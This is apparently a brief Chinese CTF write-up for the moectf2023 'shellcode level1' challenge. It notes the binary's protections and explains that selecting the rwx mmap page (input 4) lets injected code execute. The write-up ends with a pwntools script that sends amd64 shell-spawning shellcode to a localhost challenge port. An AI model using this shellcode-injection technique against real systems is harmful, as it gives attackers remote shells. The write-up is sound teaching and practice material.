 ```yaml
---
title: moectf2023 - shellcode level1
date: 2023/9/23 12:00:00
tags:
    - noob
excerpt: 通过选择内存单元执行，输入4即可利用shellcode成功利用`shellcode_level1`程序。
---
```


## 文件分析

下载`shellcode_level1`, NX on, PIE on, Canary on, RELRO full  
ghidra分析为64位程序

## 解题思路

这次要我们选择内存单元执行，有stack, .bss, heap, mmap页等  
其中mmap分配时0页为rw-，后改为rwx；  
分配1页时为rwx，后改为---

只要输入4即可执行shellcode，同上题

## EXPLOIT

```python
from pwn import *
sh = remote('localhost', 33251)
sh.sendline(b'4') # mmap paper 0
shc = asm(shellcraft.amd64.sh(), arch='amd64')
sh.sendline(shc)
sh.interactive()
```

Done.
